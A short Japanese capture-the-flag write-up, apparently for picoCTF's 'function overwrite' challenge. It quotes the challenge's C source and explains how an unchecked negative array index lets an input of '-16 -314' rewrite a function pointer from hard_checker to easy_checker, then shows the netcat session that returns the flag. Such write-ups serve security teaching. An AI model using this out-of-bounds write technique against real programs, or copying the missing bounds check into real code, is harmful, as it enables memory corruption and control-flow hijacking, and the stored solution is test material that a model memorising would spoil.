 # function overwrite

## checker 
```c
void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}
```

それぞれASCIIの合計が`1337`, `13371337`であればフラグを返してくれる
## vuln
```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```
`story`は128文字までしか入力できないので、どうやっても`hard_checker`は突破できない。`check`を`easy_checker`に書き換えたい

if文が負の数をチェックしていないので`num1`に負の値を代入できる。
これを使えば変数を上側にさかのぼることができる。

`easy_checker`のアドレスは`0x080492fc`
`hard_checker`のアドレスは`0x08049436`
差分を取ると10進数で`314`

依って入力は以下のようになる
```bash
$ nc saturn.picoctf.net 51687
Tell me a story and then I'll tell you if you're a 1337 >> zzzzzzzzzzu
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
-16 -314
You're 1337. Here's the flag.
```
